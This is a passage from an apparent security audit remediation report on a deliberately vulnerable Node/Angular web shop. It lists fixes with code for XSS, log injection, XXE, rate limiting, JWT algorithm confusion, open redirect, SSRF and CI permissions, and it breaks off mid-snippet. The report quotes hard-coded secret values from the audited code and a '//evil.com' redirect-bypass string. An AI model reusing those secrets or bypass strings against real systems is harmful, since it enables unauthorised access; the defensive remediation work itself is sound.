**How:** Replace `this.sanitizer.bypassSecurityTrustHtml(...)` with a plain string assignment: `this.lastLoginIp = payload.data.lastLoginIp`. Angular's `{{ lastLoginIp }}` template interpolation will auto-escape any HTML. Validate the `True-Client-IP` header on the backend to only accept valid IPv4/IPv6 addresses before storing in the JWT (reject requests with non-IP values).

1. Replace `this.sanitizer.bypassSecurityTrustHtml(...)` with a plain string assignment: `this.lastLoginIp = payload.data.lastLoginIp`. Angular's `{{ lastLoginIp }}` template interpolation will auto-escape any HTML.
2. Validate the `True-Client-IP` header on the backend to only accept valid IPv4/IPv6 addresses before storing in the JWT (reject requests with non-IP values).

```javascript
// last-login-ip.component.ts — safe rendering
if (payload.data.lastLoginIp) {
  this.lastLoginIp = payload.data.lastLoginIp  // plain string, not SafeHtml
}
// last-login-ip.component.html
<small>{{ lastLoginIp }}</small>
```

**Reference:** CWE-79

---

<a id="m-037"></a>
#### M-037 — Derive lastLoginIp from socket.remoteAddress rather than a spoofable request header

**Addresses:**

- 🟠 [F-046](#f-046) — Log Injection (`routes/saveLoginIp.ts:18`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `saveLoginIp.ts:18`

**How:** Replace the True-Client-IP header read at `saveLoginIp.ts:18` with `req.socket`.`remoteAddress` (or `req.ip` when Express trust proxy is correctly scoped to known proxy IPs only). If CDN/reverse-proxy real-IP forwarding is required, validate that the header arrives only from trusted proxy CIDR ranges before trusting it. Validate the resulting IP string against an IPv4/IPv6 regex before storage to prevent log injection.

1. Replace the True-Client-IP header read at `saveLoginIp.ts:18` with `req.socket`.`remoteAddress` (or `req.ip` when Express trust proxy is correctly scoped to known proxy IPs only).
2. If CDN/reverse-proxy real-IP forwarding is required, validate that the header arrives only from trusted proxy CIDR ranges before trusting it.
3. Validate the resulting IP string against an IPv4/IPv6 regex before storage to prevent log injection.

```javascript
// routes/saveLoginIp.ts — use socket address
const lastLoginIp = utils.toSimpleIpAddress(req.socket.remoteAddress ?? '')
```

**Reference:** CWE-117

---

<a id="m-038"></a>
#### M-038 — Add security audit logging

**Addresses:**

- 🟠 [F-047](#f-047) — Insufficient Security Logging (`routes/login.ts:18`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `routes/login.ts:18`

**How:** Integrate a structured logger (e.g. winston or pino) with a JSON transport. Define a security-event schema: { event, `userId`, email, ip, `userAgent`, outcome, timestamp }. In `routes/login.ts` `afterLogin()`, emit `{ event: 'LOGIN_SUCCESS', userId, email, ip: req.ip }`. In the failure branch (line 51), emit `{ event: 'LOGIN_FAILURE', email, ip: req.ip, reason: 'invalid_credentials' }`. In `routes/resetPassword.ts`, emit `{ event: 'PASSWORD_RESET', userId, ip: req.ip }` on success and `{ event: 'PASSWORD_RESET_FAILED', email, ip: req.ip }` on failure. Ship audit logs to an append-only sink (e.g. an SIEM or a write-protected log volume) separate from the application log.

1. Integrate a structured logger (e.g. winston or pino) with a JSON transport. Define a security-event schema: { event, `userId`, email, ip, `userAgent`, outcome, timestamp }.
2. In `routes/login.ts` `afterLogin()`, emit `{ event: 'LOGIN_SUCCESS', userId, email, ip: req.ip }`. In the failure branch (line 51), emit `{ event: 'LOGIN_FAILURE', email, ip: req.ip, reason: 'invalid_credentials' }`.
3. In `routes/resetPassword.ts`, emit `{ event: 'PASSWORD_RESET', userId, ip: req.ip }` on success and `{ event: 'PASSWORD_RESET_FAILED', email, ip: req.ip }` on failure.
4. Ship audit logs to an append-only sink (e.g. an SIEM or a write-protected log volume) separate from the application log.

```javascript
// routes/login.ts — structured audit
import auditLog from '../lib/auditLog'
// in afterLogin():
auditLog.info({ event: 'LOGIN_SUCCESS', userId: user.data.id,
  email: user.data.email, ip: req.ip })
// in failure branch:
auditLog.warn({ event: 'LOGIN_FAILURE', email: req.body.email, ip: req.ip })
```

**Reference:** CWE-778

---

<a id="m-039"></a>
#### M-039 — Add security audit logging

**Addresses:**

- 🟠 [F-048](#f-048) — Insufficient Security Logging (`server.ts:338`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `server.ts:338`

**How:** Create a `lib/auditLog.ts` module that writes JSON-structured events (actor_id, actor_email, action, resource_type, resource_id, outcome, timestamp, source_ip) to a dedicated `logs/security.log` stream. Emit events in `routes/login.ts` for: successful login (user_id, email), failed login (email, reason), 2FA bypass. Emit events in middleware before admin routes for: role-protected endpoint access, role change (mass-assignment detection), user deletion. Configure the security log stream as append-only at the OS level (Linux: `chattr +a logs/security.log`) and ship to an external SIEM rather than serving it via `/support/logs`.

1. Create a `lib/auditLog.ts` module that writes JSON-structured events (actor_id, actor_email, action, resource_type, resource_id, outcome, timestamp, source_ip) to a dedicated `logs/security.log` stream.
2. Emit events in `routes/login.ts` for: successful login (user_id, email), failed login (email, reason), 2FA bypass.
3. Emit events in middleware before admin routes for: role-protected endpoint access, role change (mass-assignment detection), user deletion.
4. Configure the security log stream as append-only at the OS level (Linux: `chattr +a logs/security.log`) and ship to an external SIEM rather than serving it via `/support/logs`.

```javascript
// lib/auditLog.ts
import fs from 'node:fs'
const auditStream = fs.createWriteStream('logs/security.log', { flags: 'a' })
export function logEvent(event: AuditEvent): void {
  auditStream.write(JSON.stringify({ ...event, ts: new Date().toISOString() }) + '\n')
}
```

**Reference:** CWE-778

---

<a id="m-040"></a>
#### M-040 — Add security audit logging

**Addresses:**

- 🟠 [F-049](#f-049) — No Audit Logging for File Upload Events (`routes/fileUpload.ts:27`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/fileUpload.ts:27`

**How:** Add `logger.info({ event: 'file_upload', ip: req.ip, filename: file.originalname, type: file.mimetype, size: file.size })` at the entry of each upload handler in `fileUpload.ts`. Log parse outcomes (success/failure) and which challenge was triggered to a structured log sink (Winston JSON transport or equivalent). Add authentication to `/file-upload` so uploads can be attributed to a user ID in the audit log.

1. Add `logger.info({ event: 'file_upload', ip: req.ip, filename: file.originalname, type: file.mimetype, size: file.size })` at the entry of each upload handler in `fileUpload.ts`.
2. Log parse outcomes (success/failure) and which challenge was triggered to a structured log sink (Winston JSON transport or equivalent).
3. Add authentication to `/file-upload` so uploads can be attributed to a user ID in the audit log.

```javascript
import logger from '../lib/logger'

// At start of handleXmlUpload:
logger.info({
  event: 'xml_upload',
  ip: req.ip,
  filename: file?.originalname,
  size: file?.size
})
```

**Reference:** CWE-778

---

<a id="m-041"></a>
#### M-041 — Set HttpOnly, Secure, and SameSite=Strict on the JWT token cookie

**Addresses:**

- 🟠 [F-050](#f-050) — JWT token cookie set without HttpOnly or Secure flags (`lib/insecurity.ts:195`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `lib/insecurity.ts:195`

**How:** Change `lib/insecurity.ts:195` to: `res.cookie('token', token, { httpOnly: true, secure: true, sameSite: 'strict', maxAge: 6 * 60 * 60 * 1000 })`. Ensure the SPA reads the token from the cookie via an API call rather than document.cookie once HttpOnly is enabled (the Angular frontend currently reads token from `localStorage`/cookie directly). Add the Secure attribute only after confirming HTTPS is enforced across all deployment environments.

1. Change `lib/insecurity.ts:195` to: `res.cookie('token', token, { httpOnly: true, secure: true, sameSite: 'strict', maxAge: 6 * 60 * 60 * 1000 })`
2. Ensure the SPA reads the token from the cookie via an API call rather than document.cookie once HttpOnly is enabled (the Angular frontend currently reads token from `localStorage`/cookie directly).
3. Add the Secure attribute only after confirming HTTPS is enforced across all deployment environments.

```javascript
// lib/insecurity.ts:195
res.cookie('token', token, {
  httpOnly: true,
  secure: process.env.NODE_ENV === 'production',
  sameSite: 'strict',
  maxAge: 6 * 60 * 60 * 1000
})
```

**Reference:** CWE-614

---

<a id="m-042"></a>
#### M-042 — Stop exposing internal information to clients

**Addresses:**

- 🟠 [F-051](#f-051) — Sensitive Information Exposure (`server.ts:208`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `server.ts:208`

**How:** Add IP-allowlist middleware before the `/metrics` route to restrict access to the monitoring host (Prometheus scraper IP) only. Alternatively, add `security.isAuthorized()` plus an admin-role check before the metrics handler. If Prometheus is scraped from the same host, bind the metrics endpoint to `127.0.0.1` only using a separate Express listener.

1. Add IP-allowlist middleware before the `/metrics` route to restrict access to the monitoring host (Prometheus scraper IP) only.
2. Alternatively, add `security.isAuthorized()` plus an admin-role check before the metrics handler.
3. If Prometheus is scraped from the same host, bind the metrics endpoint to `127.0.0.1` only using a separate Express listener.

```javascript
// server.ts
app.get('/metrics', IpFilter(['127.0.0.1', '10.0.0.0/8'], { mode: 'allow' }),
  async (req, res) => { res.send(await Prometheus.register.metrics()) })
```

**Reference:** CWE-200

---

<a id="m-043"></a>
#### M-043 — Stop exposing internal information to clients

**Addresses:**

- 🟠 [F-052](#f-052) — Unauthenticated Access Log and FTP Directory Exposed to Internet (`server.ts:269`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `server.ts:269`

**How:** Add `security.isAuthorized()` middleware before `serveIndex('ftp', ...)` and `servePublicFiles()` for the `/ftp` route. Remove or restrict the `/encryptionkeys` route entirely - the JWT public key should be served only via a JWKS endpoint (`/.well-known/jwks.json`) if external verification is needed. Remove the `/support/logs` directory listing and file download routes entirely, or restrict to admin-role users only via `security.isAccounting()` equivalent for admins. Move order PDFs out of the public `ftp/` directory into a private storage location with access controlled by signed URLs.

1. Add `security.isAuthorized()` middleware before `serveIndex('ftp', ...)` and `servePublicFiles()` for the `/ftp` route.
2. Remove or restrict the `/encryptionkeys` route entirely - the JWT public key should be served only via a JWKS endpoint (`/.well-known/jwks.json`) if external verification is needed.
3. Remove the `/support/logs` directory listing and file download routes entirely, or restrict to admin-role users only via `security.isAccounting()` equivalent for admins.
4. Move order PDFs out of the public `ftp/` directory into a private storage location with access controlled by signed URLs.

```javascript
// server.ts — add auth guard to FTP
app.use('/ftp', security.isAuthorized(),
  serveIndexMiddleware,
  serveIndex('ftp', { icons: true }))
```

**Reference:** CWE-200

---

<a id="m-044"></a>
#### M-044 — Move cryptographic keys to a managed secret store

**Addresses:**

- 🔴 [F-053](#f-053) — Use of Hard-coded Cryptographic Key (`lib/insecurity.ts:44`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `lib/insecurity.ts:44`

**How:** Replace `'pa4qacea4VK9t9nGv7yZtwmj'` in `lib/insecurity.ts:44` with `process.env.HMAC_SECRET` and add startup validation. Replace `'kekse'` in `server.ts:289` with `process.env.COOKIE_SECRET` and add startup validation. Generate cryptographically random 256-bit secrets using `openssl rand -hex 32` for each environment. Add the secret names to a `.env.example` file so operators know which vars to set, without the actual values.

1. Replace `'pa4qacea4VK9t9nGv7yZtwmj'` in `lib/insecurity.ts:44` with `process.env.HMAC_SECRET` and add startup validation.
2. Replace `'kekse'` in `server.ts:289` with `process.env.COOKIE_SECRET` and add startup validation.
3. Generate cryptographically random 256-bit secrets using `openssl rand -hex 32` for each environment.
4. Add the secret names to a `.env.example` file so operators know which vars to set, without the actual values.

```javascript
// lib/insecurity.ts
const hmacSecret = process.env.HMAC_SECRET ??
  (() => { throw new Error('HMAC_SECRET not set') })()
export const hmac = (data: string) =>
  crypto.createHmac('sha256', hmacSecret).update(data).digest('hex')
```

**Reference:** CWE-321

---

<a id="m-045"></a>
#### M-045 — Stop storing sensitive data in cleartext

**Addresses:**

- 🟠 [F-058](#f-058) — TOTP secret stored in plaintext (`models/user.ts:113`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `models/user.ts:113`

**How:** Add a Sequelize `beforeCreate`/`beforeUpdate` hook in `models/user.ts` that encrypts `totpSecret` with AES-256-GCM using a key stored in `process.env.TOTP_ENCRYPTION_KEY` (never in source code). Add an `afterFind` hook that decrypts `totpSecret` in-memory only when needed (e.g., at TOTP verification time), and never serializes the decrypted value to API responses. Change `DataTypes.STRING` to `DataTypes.BLOB` to store the encrypted bytes without charset conversion ambiguity. Rotate the encryption key periodically; on key rotation, decrypt all secrets with the old key and re-encrypt with the new key as a migration job.

1. Add a Sequelize `beforeCreate`/`beforeUpdate` hook in `models/user.ts` that encrypts `totpSecret` with AES-256-GCM using a key stored in `process.env.TOTP_ENCRYPTION_KEY` (never in source code).
2. Add an `afterFind` hook that decrypts `totpSecret` in-memory only when needed (e.g., at TOTP verification time), and never serializes the decrypted value to API responses.
3. Change `DataTypes.STRING` to `DataTypes.BLOB` to store the encrypted bytes without charset conversion ambiguity.
4. Rotate the encryption key periodically; on key rotation, decrypt all secrets with the old key and re-encrypt with the new key as a migration job.

```javascript
// models/user.ts — encrypt totpSecret before persistence
import crypto from 'crypto'
const key = Buffer.from(process.env.TOTP_ENCRYPTION_KEY!, 'hex')
User.addHook('beforeCreate', (user: User) => {
  if (user.totpSecret) {
    const iv = crypto.randomBytes(12)
    const cipher = crypto.createCipheriv('aes-256-gcm', key, iv)
    const enc = Buffer.concat([cipher.update(user.totpSecret, 'utf8'), cipher.final()])
    user.totpSecret = iv.toString('hex') + ':' + enc.toString('hex') + ':' + cipher.getAuthTag().toString('hex')
  }
})
```

**Reference:** CWE-312

---

<a id="m-046"></a>
#### M-046 — Disable XML external entity (XXE) resolution

**Addresses:**

- 🟠 [F-059](#f-059) — XXE File Read (`routes/fileUpload.ts:83`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/fileUpload.ts:83`

**How:** Change `libxml.parseXml(data, { noblanks: true, noent: true, nocdata: true })` to `libxml.parseXml(data, { noblanks: true, noent: false, nocdata: true })` at `routes/fileUpload.ts:83`. If external entity support is intentionally required for a challenge, gate it behind a dedicated flag and reject SYSTEM/PUBLIC entity declarations via a pre-parse regex that denies `<!ENTITY` patterns in the raw XML string before parsing. Add an allowlist of accepted XML schemas and reject documents not matching the expected B2B complaint schema.

1. Change `libxml.parseXml(data, { noblanks: true, noent: true, nocdata: true })` to `libxml.parseXml(data, { noblanks: true, noent: false, nocdata: true })` at `routes/fileUpload.ts:83`.
2. If external entity support is intentionally required for a challenge, gate it behind a dedicated flag and reject SYSTEM/PUBLIC entity declarations via a pre-parse regex that denies `<!ENTITY` patterns in the raw XML string before parsing.
3. Add an allowlist of accepted XML schemas and reject documents not matching the expected B2B complaint schema.

```javascript
// Secure: external entity resolution disabled
const xmlDoc = vm.runInContext(
  'libxml.parseXml(data, { noblanks: true, noent: false, nocdata: true })',
  sandbox, { timeout: 2000 }
)
```

**Reference:** CWE-611

---

<a id="m-047"></a>
#### M-047 — Stop exposing internal information to clients

**Addresses:**

- 🟠 [F-060](#f-060) — CTF Flag Broadcast to All Connected Sockets (`lib/challengeUtils.ts:71`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `challengeUtils.ts:71`

**How:** On authenticated connection (post realtime-channel-001), call `socket.join(socket.data.user.id)` to place each socket in a user-scoped room. Replace `globalWithSocketIO.io.emit('challenge solved', notification)` in `challengeUtils.ts:71` with `globalWithSocketIO.io.to(userId).emit('challenge solved', notification)` where `userId` is passed from the solve context. On reconnection notification replay (`registerWebsocketEvents.ts:30`), only emit notifications where `notification.userId === socket.data.user.id`. Consider encrypting or omitting the `flag` field from the WebSocket notification payload entirely - the flag can be fetched via an authenticated REST endpoint after acknowledgment.

1. On authenticated connection (post realtime-channel-001), call `socket.join(socket.data.user.id)` to place each socket in a user-scoped room.
2. Replace `globalWithSocketIO.io.emit('challenge solved', notification)` in `challengeUtils.ts:71` with `globalWithSocketIO.io.to(userId).emit('challenge solved', notification)` where `userId` is passed from the solve context.
3. On reconnection notification replay (`registerWebsocketEvents.ts:30`), only emit notifications where `notification.userId === socket.data.user.id`.
4. Consider encrypting or omitting the `flag` field from the WebSocket notification payload entirely - the flag can be fetched via an authenticated REST endpoint after acknowledgment.

```javascript
// challengeUtils.ts — scoped emit
if (globalWithSocketIO.io && (isRestore || !wasPreviouslyShown)) {
  globalWithSocketIO.io
    .to(String(solvedByUserId))  // room = userId
    .emit('challenge solved', notification)
}
```

**Reference:** CWE-200

---

<a id="m-048"></a>
#### M-048 — Rate-limit and lock out repeated authentication attempts

**Addresses:**

- 🟠 [F-061](#f-061) — Missing Anti-Automation / Rate Limiting (`server.ts:594`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `server.ts:594`

**How:** Wrap the login route in `server.ts:594` with `rateLimit({ windowMs: 15 * 60 * 1000, max: 10, standardHeaders: true, legacyHeaders: false })`. Key the limiter by `req.ip` (not a header) to prevent bypass via X-Forwarded-For. Consider progressive delays (express-slow-down) after 3 failed attempts before hard block at 10. Log failed authentication rate-limit events as security audit entries.

1. Wrap the login route in `server.ts:594` with `rateLimit({ windowMs: 15 * 60 * 1000, max: 10, standardHeaders: true, legacyHeaders: false })`.
2. Key the limiter by `req.ip` (not a header) to prevent bypass via X-Forwarded-For.
3. Consider progressive delays (express-slow-down) after 3 failed attempts before hard block at 10.
4. Log failed authentication rate-limit events as security audit entries.

```javascript
// server.ts
import { rateLimit } from 'express-rate-limit'
const loginLimiter = rateLimit({
  windowMs: 15 * 60 * 1000,
  max: 10,
  standardHeaders: true,
  legacyHeaders: false
})
app.post('/rest/user/login', loginLimiter, login())
```

**Reference:** CWE-307

---

<a id="m-049"></a>
#### M-049 — Add per-IP rate limiting to POST /b2b/v2/orders

**Addresses:**

- 🟠 [F-062](#f-062) — Unauthenticated CPU Exhaustion (`routes/b2bOrder.ts:23`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/b2bOrder.ts:23`

**How:** Apply `express-rate-limit` middleware directly to the B2B route with a conservative window: e.g. 10 requests per IP per minute. Tune upward based on legitimate B2B call volumes. Consider adding a global concurrency limiter (`p-limit` or a semaphore) around the `vm.runInContext` call to cap simultaneous sandbox executions regardless of rate limiting (e.g. max 2 concurrent eval calls).

1. Apply `express-rate-limit` middleware directly to the B2B route with a conservative window: e.g. 10 requests per IP per minute. Tune upward based on legitimate B2B call volumes.
2. Consider adding a global concurrency limiter (`p-limit` or a semaphore) around the `vm.runInContext` call to cap simultaneous sandbox executions regardless of rate limiting (e.g. max 2 concurrent eval calls).

```javascript
import rateLimit from 'express-rate-limit'

const b2bLimiter = rateLimit({
  windowMs: 60 * 1000,   // 1 minute
  max: 10,               // 10 requests per IP
  standardHeaders: true,
  legacyHeaders: false
})

router.post('/b2b/v2/orders', b2bLimiter, expressjwt(...), b2bOrder())
```

**Reference:** CWE-400

---

<a id="m-050"></a>
#### M-050 — Apply rate limiting and account lockout to POST /rest/user/login

**Addresses:**

- 🟠 [F-063](#f-063) — No Rate Limiting on Login Endpoint Enables Credential Stuffing (`server.ts:343`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `server.ts:343`

**How:** Register `express-rate-limit` before the login route: `app.use('/rest/user/login', rateLimit({ windowMs: 15 * 60 * 1000, max: 10 }))` - 10 attempts per 15 minutes per IP. Add account-level lockout: after 5 consecutive failed login attempts for an email address, require CAPTCHA or a time-locked delay before accepting further attempts for that account. Use a real IP as the rate-limit key (fix backend-api-003 first to avoid the X-Forwarded-For bypass).

1. Register `express-rate-limit` before the login route: `app.use('/rest/user/login', rateLimit({ windowMs: 15 * 60 * 1000, max: 10 }))` - 10 attempts per 15 minutes per IP.
2. Add account-level lockout: after 5 consecutive failed login attempts for an email address, require CAPTCHA or a time-locked delay before accepting further attempts for that account.
3. Use a real IP as the rate-limit key (fix backend-api-003 first to avoid the X-Forwarded-For bypass).

```javascript
// server.ts — add before login route
app.use('/rest/user/login', rateLimit({
  windowMs: 15 * 60 * 1000,
  max: 10,
  message: 'Too many login attempts, please try again later.'
}))
```

**Reference:** CWE-400

---

<a id="m-051"></a>
#### M-051 — Bound parser and decompression resource limits

**Addresses:**

- 🟠 [F-064](#f-064) — Unauthenticated Parser Amplification DoS (`routes/fileUpload.ts:83`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `routes/fileUpload.ts:83`

**How:** Add JWT authentication middleware before the `/file-upload` route registration in `server.ts` to prevent unauthenticated access. Add `express-rate-limit` middleware to `/file-upload` (e.g. max 10 requests per minute per IP). Set `noent: false` in the libxmljs2 call to prevent external entity expansion (as in finding file-upload-service-001); this also prevents billion-laughs expansion. Replace `yaml.load()` with `yaml.load(data, { schema: yaml.JSON_SCHEMA })` to disable recursive anchor expansion in YAML.

1. Add JWT authentication middleware before the `/file-upload` route registration in `server.ts` to prevent unauthenticated access.
2. Add `express-rate-limit` middleware to `/file-upload` (e.g. max 10 requests per minute per IP).
3. Set `noent: false` in the libxmljs2 call to prevent external entity expansion (as in finding file-upload-service-001); this also prevents billion-laughs expansion.
4. Replace `yaml.load()` with `yaml.load(data, { schema: yaml.JSON_SCHEMA })` to disable recursive anchor expansion in YAML.

```javascript
import { rateLimit } from 'express-rate-limit'

app.post('/file-upload',
  rateLimit({ windowMs: 60_000, max: 10, standardHeaders: true }),
  security.isAuthorized(), // require valid JWT
  uploadToMemory.single('file'),
  ensureFileIsPassed,
  checkUploadSize,
  checkFileType,
  handleZipFileUpload,
  handleXmlUpload,
  handleYamlUpload
)
```

**Reference:** CWE-400

---

<a id="m-052"></a>
#### M-052 — Set Socket\.IO connection limits and add upstream rate limiting for WebSocket upgrades

**Addresses:**

- 🟠 [F-065](#f-065) — Uncontrolled Resource Consumption (`registerWebsocketEvents.ts:20`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `lib/startup/registerWebsocketEvents.ts:20`

**How:** Set `maxHttpBufferSize` in the Socket\.IO constructor to a safe bound (e.g. `1e4` - 10 KB) to cap per-message memory: `new Server(server, { cors: ..., maxHttpBufferSize: 1e4 })`. Apply `express-rate-limit` (already a project dependency) to the Socket\.IO polling fallback path (`/socket.io/`) at the Express layer before the WebSocket upgrade, limiting unauthenticated upgrade attempts per IP. Consider adding Socket\.IO-native connection throttling via a `io.use()` middleware that tracks connections per IP using a sliding-window counter and calls `next(new Error('rate limited'))` on excess. Make the notification replay at connection time asynchronous and paginated (or gated behind authentication from realtime-channel-001) so a connection burst does not trigger O(n) synchronous work.

1. Set `maxHttpBufferSize` in the Socket\.IO constructor to a safe bound (e.g. `1e4` - 10 KB) to cap per-message memory: `new Server(server, { cors: ..., maxHttpBufferSize: 1e4 })`.
2. Apply `express-rate-limit` (already a project dependency) to the Socket\.IO polling fallback path (`/socket.io/`) at the Express layer before the WebSocket upgrade, limiting unauthenticated upgrade attempts per IP.
3. Consider adding Socket\.IO-native connection throttling via a `io.use()` middleware that tracks connections per IP using a sliding-window counter and calls `next(new Error('rate limited'))` on excess.
4. Make the notification replay at connection time asynchronous and paginated (or gated behind authentication from realtime-channel-001) so a connection burst does not trigger O(n) synchronous work.

```javascript
// lib/startup/registerWebsocketEvents.ts
const io = new Server(server, {
  cors: { origin: process.env.ALLOWED_ORIGIN ?? 'http://localhost:4200' },
  maxHttpBufferSize: 1e4   // 10 KB per message
})
```

**Reference:** CWE-400

---

<a id="m-053"></a>
#### M-053 — Apply least-privilege permissions

**Addresses:**

- 🟠 [F-066](#f-066) — JWT role claim elevation (`lib/insecurity.ts:54`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `lib/insecurity.ts:54`

**How:** Upgrade express-jwt to ^8.x and specify `{ algorithms: ['RS256'] }` in every `expressJwt()` call. Replace `jws.verify()` in `security.verify()` with `jsonwebtoken.verify(token, publicKey, { algorithms: ['RS256'] })` which explicitly rejects `HS256`. Serve `jwt.pub` only from an internal endpoint (not publicly accessible) or remove static serving of encryptionkeys/ directory. After algorithm pinning, audit all `isAuthorized()`, `isAccounting()`, `isDeluxe()`, and `isCustomer()` helpers to confirm they all use the updated verify path.

1. Upgrade express-jwt to ^8.x and specify `{ algorithms: ['RS256'] }` in every `expressJwt()` call.
2. Replace `jws.verify()` in `security.verify()` with `jsonwebtoken.verify(token, publicKey, { algorithms: ['RS256'] })` which explicitly rejects `HS256`.
3. Serve `jwt.pub` only from an internal endpoint (not publicly accessible) or remove static serving of encryptionkeys/ directory.
4. After algorithm pinning, audit all `isAuthorized()`, `isAccounting()`, `isDeluxe()`, and `isCustomer()` helpers to confirm they all use the updated verify path.

```javascript
// lib/insecurity.ts — algorithm-pinned verify
import jwt from 'jsonwebtoken'
export const verify = (token: string) => {
  try {
    return jwt.verify(token, publicKey, { algorithms: ['RS256'] })
  } catch { return false }
}
```

**Reference:** CWE-269

---

<a id="m-054"></a>
#### M-054 — Enforce object-level (ownership) authorization

**Addresses:**

- 🟠 [F-067](#f-067) — Open Redirect Allowlist Bypass (`lib/insecurity.ts:138`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `lib/insecurity.ts:138`

**How:** Replace `url.includes(allowedUrl)` with exact equality: `url === allowedUrl`, or use URL parsing to compare the full normalized URL including scheme, host, path, and query. Additionally validate that the `to` parameter starts with `https://` and parse it as a URL object to prevent protocol-relative bypass (`//evil.com`). Consider switching to an allowlist of allowed hostnames rather than full URLs, using `new URL(url).hostname === 'github.com'` checks.

1. Replace `url.includes(allowedUrl)` with exact equality: `url === allowedUrl`, or use URL parsing to compare the full normalized URL including scheme, host, path, and query.
2. Additionally validate that the `to` parameter starts with `https://` and parse it as a URL object to prevent protocol-relative bypass (`//evil.com`).
3. Consider switching to an allowlist of allowed hostnames rather than full URLs, using `new URL(url).hostname === 'github.com'` checks.

```javascript
// lib/insecurity.ts
export const isRedirectAllowed = (url: string) => {
  return [...redirectAllowlist].some(allowed => url === allowed)
}
```

**Reference:** CWE-639

---

<a id="m-055"></a>
#### M-055 — Enforce server-side authorization on every endpoint

**Addresses:**

- 🔴 [F-068](#f-068) — Sensitive Routes Registered Without Authentication Middleware (`server.ts:310`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `server.ts:310`

**How:** Add an explicit auth middleware (`isAuthorized()` / `passport.authenticate()` / `requireAuth`) to the route registration, or mark the route intentionally public via `app.get(...)` for read-only access only.

```typescript
// Add server-side role check on every admin route.
router.use('/admin/*', (req, res, next) => {
  if (req.user?.role !== 'admin') return res.status(403).end()
  next()
})
```

**Verification:** Hit `/admin/...` with a non-admin JWT and confirm 403 (not 200).

---

<a id="m-056"></a>
#### M-056 — Enforce server-side authorization on every endpoint

**Addresses:**

- 🔴 [F-069](#f-069) — Authorization Check Disabled on Product Update Route (`server.ts:369`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `server.ts:369`

**How:** Uncomment `app.put('/api/Products/:id', security.isAuthorized())` at `server.ts:369` as an immediate fix. Add an admin-role guard after `isAuthorized()`: only users with `role === 'admin'` should be able to update product records. Add input validation on the product fields (name length, price non-negative numeric, description HTML sanitization) in the PUT handler.

1. Uncomment `app.put('/api/Products/:id', security.isAuthorized())` at `server.ts:369` as an immediate fix.
2. Add an admin-role guard after `isAuthorized()`: only users with `role === 'admin'` should be able to update product records.
3. Add input validation on the product fields (name length, price non-negative numeric, description HTML sanitization) in the PUT handler.

```javascript
// server.ts
app.put('/api/Products/:id',
  security.isAuthorized(),
  (req, res, next) => {
    const token = security.decode(jwtFrom(req))
    if (token?.data?.role !== 'admin') return res.status(403).json({ error: 'Forbidden' })
    next()
  }
)
```

**Reference:** CWE-862

---

<a id="m-057"></a>
#### M-057 — Validate and allowlist outbound request targets

**Addresses:**

- 🟠 [F-070](#f-070) — Server-Side Request Forgery (`routes/profileImageUrlUpload.ts:24`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `routes/profileImageUrlUpload.ts:24`

**How:** Validate `url` against an allowlist: only `https://` scheme, and reject hostnames that resolve to private RFC1918/loopback/link-local addresses (127.0.0.0/8, 10.0.0.0/8, 172.16.0.0/12, 192.168.0.0/16, 169.254.0.0/16). Use the `ssrf-filter` npm package which resolves the hostname pre-connection and rejects internal IP ranges. Remove the error fallback that stores the raw URL in the database (lines 34-38) - on fetch failure, either return an error to the caller or use a default profile image. Set a short `signal: AbortSignal.timeout(5000)` on the fetch to prevent slow-loris against the internal network.

1. Validate `url` against an allowlist: only `https://` scheme, and reject hostnames that resolve to private RFC1918/loopback/link-local addresses (127.0.0.0/8, 10.0.0.0/8, 172.16.0.0/12, 192.168.0.0/16, 169.254.0.0/16).
2. Use the `ssrf-filter` npm package which resolves the hostname pre-connection and rejects internal IP ranges.
3. Remove the error fallback that stores the raw URL in the database (lines 34-38) - on fetch failure, either return an error to the caller or use a default profile image.
4. Set a short `signal: AbortSignal.timeout(5000)` on the fetch to prevent slow-loris against the internal network.

```javascript
import { SsrfFilter } from 'ssrf-filter'
const filter = new SsrfFilter({ allowedSchemes: ['https'] })
// routes/profileImageUrlUpload.ts
const safeUrl = await filter.resolve(url)  // throws on internal address
const response = await fetch(safeUrl, { signal: AbortSignal.timeout(5000) })
```

**Reference:** CWE-918

---

<a id="m-058"></a>
#### M-058 — Apply least-privilege permissions

**Addresses:**

- 🟠 [F-071](#f-071) — GITHUB_TOKEN Write-All Permission on 10 of 13 Workflows (`ci.yml:1`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `.github/workflows/ci.yml:1`

**How:** Add a top-level `permissions: read-all` default to every workflow file, then add only the specific job-level permissions each job needs (e.g., `contents: write` only for the release job that attaches files to releases). For the `ci.yml` docker job, add `packages: write` only on that job; for the Heroku deploy job, no GITHUB_TOKEN write access is needed. Enable the GitHub repository setting 'Workflow permissions → Read repository contents and packages permissions' as the org-level default to make write-all opt-in rather than the default. Run `actionlint` in CI to enforce that all new workflows declare explicit permissions before merge.

1. Add a top-level `permissions: read-all` default to every workflow file, then add only the specific job-level permissions each job needs (e.g., `contents: write` only for the release job that attaches files to releases).
2. For the `ci.yml` docker job, add `packages: write` only on that job; for the Heroku deploy job, no GITHUB_TOKEN write access is needed.
3. Enable the GitHub repository setting 'Workflow permissions → Read repository contents and packages permissions' as the org-level default to make write-all opt-in rather than the default.
4. Run `actionlint` in CI to enforce that all new workflows declare explicit permissions before merge.

```javascript
# ci.yml — add at top level
permissions:
  contents: read

jobs:
  docker:
    permissions:
